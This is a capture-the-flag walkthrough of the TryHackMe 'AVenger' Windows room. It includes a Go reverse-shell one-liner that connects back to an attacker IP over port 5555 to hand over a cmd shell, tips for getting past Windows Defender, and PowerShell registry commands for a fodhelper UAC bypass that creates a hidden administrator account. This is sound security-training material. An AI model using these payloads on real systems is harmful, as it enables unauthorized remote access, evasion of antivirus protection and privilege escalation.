 # AVenger

https://tryhackme.com/room/avenger, difficulty MEDIUM

A fun room thanks to its initial foothold. Always good to see some Windows machines to hack :)

1. Initial scans will reveal the normal raft of ports that a windows server will expose by default. Of note is port **80**, showing the machine is hosting a webserver.

2. On port **80** is a file listing, revealing XAMPP has been used as the webserver. There are a few pieces of information available, including a PHPInfo page that reveals the server OS as **Windows Server 2019**

3. Browsing to `/app` will attempt to redirect to `avenger.tryhackme/app`, so a host entry needs to be created so that this resolves.

4. On the site once it has resolved is something like a HR page for a superhero team. Of note here is a submission form, that allows you to select a file. Once submitting something a popup appears saying the HR team will review submissions very closely.

All this provides enough information to identify the foothold:

- the room is called AVenger, e.g. AV or antivirus is the challenge
- its server 2019, and the room notes indicate its 'fully patched' with defender (default AV for windows) enabled
- upload form that accepts files, and an indication that the forms contents and the files will be 'reviewed'

So an informed guess would be an AV bypass challenge, with you submitting something like a rev shell, hoping AV doesn't remove it, then catching it when some process runs it. My go to for bypassing defender is using a golang binary, as even an internet connected and patched windows machine will normally not pickup a go binary unless you are using one that has been in use by others enough for it to appear on the radar of Microsoft.

5. The go used is created via `echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.10.217.43:5555");cmd:=exec.Command("cmd");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > t.go`. This is broadly identical to the payload suggested by something like https://www.revshells.com/ for go. Note that the shell specified is 'cmd' and the reverse ip must be set correctly to the attacker machine.

6. It can be compiled on linux with `GOOS=windows GOARCH=amd64 go build t.go` however this may not work, since it will likely build for modern OS's like Windows 10, 11 and Server 2019 is getting a bit old. If you have a windows machine handy, its just `go build t.go` but you might need to ensure the encoding of `t.go` is UTF-8 (Powershell sets something weird that Golang then complains about NUL errors for).

7. Upload the resulting t.exe to the AVenger's app site. Ensure that you have a rev shell catcher on your attack box, e.g. `nc -nvlp 5555`. After a moment or two you will get a revshell as 'hugo'.

8. The user flag is under `c:\users\hugo\desktop\user.txt`.

To privesc to root is fairly simple, as hugo is a member of the administrators group (`whoami /groups`). However, UAC (user access control) is enabled, a control that means hugo needs to interact with a prompt to assume higher privileges. This explains why, despite being an admin, `whoami /priv` is very empty. A second indicator is something like `medium integrity` mandatory access control under `/groups`, indicating restricted rights until the UAC prompt is accepted. Despite not being a security control per se, being largely there to stop malicious binaries doing things with admin privileges (as we are trying to do), it is effective because we do not have Hugo's password and so cannot just remote in to the machine to interact with the prompt.

The solution, which is common and still works on Server 2019, is the [fodhelper](https://tcm-sec.com/bypassing-defender-the-easy-way-fodhelper/) trick. This is a process that will run as a high integrity process even without accepting the UAC prompt, and will run whatever is placed in a specific registry value.

9. Switch to a powershell session if not already in one (command line will be prefixed with 'PS') by running `ps`
10. Come up with a command payload. We are going to create a new admin user with a known password, via `cmd.exe /c net user test123 Password123! /add && net localgroup administrators test123 /add`
11. Run the following commands one by one to get fodhelper to run this as admin (note our command payload in the third line):

    ```powershell
    New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
    New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "cmd.exe /c net user test123 Password123! /add && net localgroup administrators test123 /add" -Force
    Start-Process "C:\Windows\System32\fodhelper.exe"
    ```

    You can confirm it worked by running `net user test123`

12. Using remmina on linux or whatever remote desktop tool (e.g. freerdp), or mstsc/Remote Desktop from a windows attack box, connect to the machine with the new test123:Password123! credentials.

You should be able to access `c:\users\administrator\desktop\root.txt` to get the final flag.
